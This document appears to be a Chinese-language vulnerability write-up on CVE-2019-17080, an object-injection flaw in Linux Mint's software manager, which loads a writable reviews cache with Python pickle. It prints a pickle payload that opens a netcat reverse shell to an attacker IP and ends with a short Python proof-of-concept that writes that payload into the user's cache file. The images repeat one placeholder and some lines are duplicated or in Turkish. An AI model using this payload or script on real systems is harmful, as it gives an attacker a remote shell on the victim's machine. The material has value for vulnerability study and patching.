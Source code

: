 # （CVE-2019-17080）Mintinstall object injection

> 原文：[https://www.zhihuifly.com/t/topic/3020](https://www.zhihuifly.com/t/topic/3020)

# （CVE-2019-17080）Mintinstall object injection

## 一、漏洞简介

Linux mint软件管理器（v 7.9.5 / 9）由于配置错误而导致对象注入和任意代码执行。

Linux Mint Software Manager（v 7.9.5 / 9）由于配置错误而导致我们执行对象注入和任意代码

## 二、漏洞影响

Version: 7.9.9

## 三、复现过程

```
mintinsall 
```

我们运行Mint软件管理器还会检查是否有新注释，如果[new-reviews.list](https://community.linuxmint.com/data/) 下载中有 新注释并写入文件。

如果有新评论，请从文件[new-reviews.list](https://community.linuxmint.com/data/)下载并写入文件

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

```
code mintinstall.py 
```

首次启动软件管理器时，它会从评论模块调用ReviewCache（）类。

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

### 它如何处理数据？

```
code reviews.py 
```

当ReviewCache类启动（init）时，它将调用_load_cache（）函数。

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

加载缓存功能读取REVIEWS_CACHE变量中的文件，并在pickle模块的帮助下，对文件中的数据进行反序列化并在内存中保存一些值

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

当我检查文件时，看起来好像可以写文件。

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

[Pickle](https://docs.python.org/3.6/library/pickle.html) 因为我们可以使用模块执行序列化/反序列化操作，所以可以包含模块并使用reduce方法执行任意代码。

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

如果您尝试反序列化文件，则我们的恶意代码将起作用。

```
cos 
system 
(S'nc -e /bin/sh 192.168.2.138 4545' 
tR.
>>modül adı c{os}
>> fonksiyon
( >> işaretleyici nesnesi 
S >> tırnak sonuna kadar okuyup stack'e at
tR. >> stackte olanları çagır ve sonucu stacke yerleştir. 
```

![](img/841b6d0af7ed1e66c899bca37d6e664e.png)

![alt-text](img/841b6d0af7ed1e66c899bca37d6e664e.png)

poc

```
import os
import sys
def shellCode(payload):
    with open(f"{os.getenv('HOME')}/.cache/mintinstall/reviews.cache","w") as wb:
        wb.write(payload)
    print("[+] Start mintinstall")
if __name__=="__main__":
    shellCode(f"""cos\nsystem\n(S"nc -e /bin/sh {sys.argv[1]} {sys.argv[2]}"\ntR.""")
else:
    print("[!] exploit.py [IP] [PORT]") 
```